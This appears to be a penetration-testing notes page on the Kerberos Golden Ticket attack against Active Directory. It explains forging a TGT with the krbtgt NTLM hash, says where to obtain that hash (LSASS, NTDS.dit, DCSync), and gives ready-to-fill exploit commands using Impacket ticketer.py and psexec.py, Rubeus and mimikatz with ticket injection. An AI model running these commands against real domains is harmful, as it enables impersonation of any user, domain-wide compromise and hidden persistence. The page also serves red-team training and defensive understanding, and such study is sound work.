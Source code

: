 # Overview
A Golden Ticket attack involves forging a [[88 - Kerberos]] **Ticket Granting Ticket (TGT)** using the *NTLM* hash of the **krbtgt** account, the secret key used by the **Key Distribution Centre (KDC)** to sign all TGTs. With a valid Golden Ticket, an attacker can impersonate any user, including domain administrators, and gain unrestricted access to domain resources. This technique grants long-term persistence within an Active Directory environment and is particularly difficult to detect without careful monitoring.

## Acquiring NTLM hash of krbtgt
To acquire the *NTLM* hash of the **krbtgt** account, one may use various methods. 
- The hash can be extracted from the **Local Security Authority Subsystem Service (LSASS) process** or the **NT Directory Services (NTDS.dit) file** located on any Domain Controller (DC) within the domain.
- One can also execute a [[DCSync]] attack.

## Prerequisites
- Having the *NTLM* hash of the **krbtgt** account.

## Tools
- [Impacket - ticketer.py](https://github.com/fortra/impacket/blob/master/examples/ticketer.py)
- [Impacket - psexec.py](https://github.com/fortra/impacket/blob/master/examples/psexec.py)
- [Rubeus Release](https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.5_x64/Rubeus.exe)
- [mimikatz](https://github.com/gentilkiwi/mimikatz)

# Exploit
## Linux
```bash
python ticketer.py -nthash <HASH> -domain-sid <DOMAIN_SID> -domain <DOMAIN> -spn <SERVICE_PRINCIPAL_NAME> <USER>

export KRB5CCNAME=/root/impacket-examples/<TICKET_NAME>.ccache

python psexec.py <DOMAIN>/<USER>@<TARGET> -k -no-pass
```

## Windows
```powershell
# Rubeus
Rubeus.exe golden /user:<USER> /domain:<DOMAIN> /sid<DOMAIN_SID> /rc4:<KRBTGT_NTHASH> /ptt

# mimikatz
## with an NT hash
kerberos::golden /domain:<DOMAIN> /sid:<DOMAIN_SID> /rc4:<KRBTGT_NTHASH> /user:<USER> /ptt
## with an AES 128 key
kerberos::golden /domain:<DOMAIN> /sid:<DOMAIN_SID> /aes128:<KRBTGT_AES128> /user:<USER> /ptt
## with an AES 256 key
kerberos::golden /domain:<DOMAIN> /sid:<DOMAIN_SID> /aes256:<KRBTGT_AES256> /user:<USER> /ptt
```
For both `mimikatz` and `Rubeus`, the `/ptt` flag is used to automatically inject the ticket.

# References
- [https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/golden-ticket.html](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/golden-ticket.html)
- [https://www.crowdstrike.com/en-gb/cybersecurity-101/cyberattacks/golden-ticket-attack/](https://www.crowdstrike.com/en-gb/cybersecurity-101/cyberattacks/golden-ticket-attack/)
- [https://www.netwrix.com/how_golden_ticket_attack_works.html](https://www.netwrix.com/how_golden_ticket_attack_works.html)
- [https://www.stationx.net/golden-ticket-attack/](https://www.stationx.net/golden-ticket-attack/)